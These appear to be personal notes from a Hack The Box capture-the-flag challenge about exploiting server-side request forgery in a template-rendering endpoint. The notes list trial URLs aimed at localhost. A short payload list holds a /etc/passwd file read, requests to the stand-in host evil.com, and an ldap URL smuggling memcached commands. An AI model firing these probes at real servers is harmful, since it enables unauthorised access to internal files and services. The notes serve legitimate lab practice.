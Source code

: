 
You've found a website that lets you input remote templates for rendering.
Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

===========================
http://206.189.23.108:31030/render?use_remote=true&page=http://206.189.23.108:31030/render?page=index.tpl#

http://159.65.26.210:31705/static/js/bootstrap.bundle.min.js
http://159.65.26.210:31705/static/js/script.js

FUZZ -> /home/l4b/Downloads/thebuffet/wordlists/js-files/wordlists

http://159.65.26.210:31705/render?page=index.tpl

GET, POST. PUT. HEAD are all allowed 

============================
/render?use_remote=true&page=a
Cookie: user_ip=189.172.16.125a

http://134.209.188.158:31023/render?page=sftp:http://127.0.0.1:1337/render?page=elpepe.txt

document.getElementById 

http://159.65.26.210:31705/render


========================================
SOME PAYLOADS:

file:///etc/passwd

ssrf.php?url=sftp://evil.com:11111/

ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

---------------------------------------------
---------------------------------------------
[VALID EXAMPLE]: 
http://206.189.23.108:31030/render?use_remote=true&page=http://206.189.23.108:31030/render?page=index.tpl#

[TESTS]:
http://134.209.188.158:31023/render?use_remote=true&page=http://127.0.0.1:1337/render?page=elpepe.txt
http://134.209.188.158:31023/render?use_remote=true&url=http://127.0.0.1:1337/render?page=elpepe.txt
---------------
http://134.209.188.158:31023/render?use_remote=true&page=sftp://127.0.0.1:1337/render?page=elpepe.txt
http://134.209.188.158:31023/render?use_remote=true&url=sftp://127.0.0.1:1337/render?page=elpepe.txt
---------------
http://134.209.188.158:31023/render?use_remote=true&page=tftp://127.0.0.1:1337/render?page=elpepe.txt
http://134.209.188.158:31023/render?use_remote=true&url=tftp://127.0.0.1:1337/render?page=elpepe.txt
---------------
http://134.209.188.158:31023/render?use_remote=true&page=ldap://127.0.0.1:1337/render?page=elpepe.txt
http://134.209.188.158:31023/render?use_remote=true&url=ldap://127.0.0.1:1337/render?page=elpepe.txt
========================================
RESOURCES

https://blog.appsecco.com/static-analysis-of-client-side-javascript-for-pen-testers-and-bug-bounty-hunters-f1cb1a5d5288

https://medium.com/@rudrasonkusare0222/how-to-perform-static-analysis-of-javascript-files-37b3657d92e8

-------------------------------------------------
https://github.com/projectdiscovery/interactsh
https://github.com/teknogeek/ssrf-sheriff
https://ad3sh.medium.com/how-i-found-xss-via-ssrf-vulnerability-adesh-kolte-873b30a6b89f
https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f
https://www.synack.com/blog/guest-blog-ssrf-using-xss-in-a-constrained-environment/
https://forum.hackthebox.com/t/official-renderquest-discussion/298332/3
------------------------------------------------
 - use: go run main.go
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&page=http://127.0.0.1:1337/render?page=elpepe.txt
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&url=http://127.0.0.1:1337/render?page=elpepe.txt

 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&page=sttp://127.0.0.1:1337/render?page=elpepe.txt
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&url=sftp://127.0.0.1:1337/render?page=elpepe.txt

 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&page=tftp://127.0.0.1:1337/render?page=elpepe.txt
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&url=tftp://127.0.0.1:1337/render?page=elpepe.txt
 
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&page=ldap://127.0.0.1:1337/render?page=elpepe.txt
 - http://206.189.23.108:30304/render?use_remote=true&page=http://206.189.23.108:30304/render?&url=ldap://127.0.0.1:1337/render?page=elpepe.txt 
-------------------------------------------------
 - 210.10.14.238
 -

 -
 -

 -
 -

 -
 -



==================================
- probar en vez de localhost, usar tun0 interface ip 10.10.14.238
- probar agregar ip de la maquina a a /etc/hosts

